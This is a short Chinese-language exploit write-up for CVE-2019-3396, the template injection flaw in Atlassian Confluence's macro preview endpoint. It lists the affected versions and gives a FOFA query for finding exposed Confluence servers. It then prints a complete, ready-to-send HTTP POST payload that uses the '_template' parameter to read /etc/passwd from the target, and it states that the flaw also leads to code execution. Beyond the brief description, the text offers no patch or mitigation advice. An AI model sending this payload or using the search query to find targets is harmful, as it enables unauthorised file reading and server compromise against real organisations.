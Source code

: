 # Atlassian Confluence preview SSTI模版注入漏洞 CVE-2019-3396

## 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。 利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

## 漏洞影响

```
Atlassian Atlassian Confluence < 6.6.12
Atlassian Atlassian Confluence 6.7.0-6.12.2
Atlassian Atlassian Confluence < 6.13.3
Atlassian Atlassian Confluence < 6.14.2
```

## FOFA

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

登录页面

![image-20220524142010885](./images/202205241421261.png)

发送请求包

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3670.0 Safari/537.36
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```